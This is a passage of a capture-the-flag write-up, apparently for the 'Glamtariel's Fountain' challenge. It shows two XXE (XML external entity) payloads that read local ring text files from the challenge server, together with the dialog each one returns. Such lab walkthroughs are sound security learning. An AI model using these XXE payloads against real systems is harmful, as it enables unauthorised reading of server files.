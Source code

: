 
In addition to the above dialog, we also have a value in the previously unused 'visit' property, telling us to go to `https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png,262px,100px`, where we get the following image.  

![](pholder-morethantopsupersecret63842.png)

This image references two files in the folder `x_phial_pholder_2022`, `bluering.txt` and `redring.txt`.

Next we use XXE to "give" these rings to the princess.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| bluering.txt| princess | I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty. | She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though. |

Note that this is the same dialog from when we dropped a blue ring on the princess though the web UI.  Next, try the red ring.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/redring.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| redring.txt| princess | Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice. | Oooooh, I can just tell she'd like to talk about them some more. |
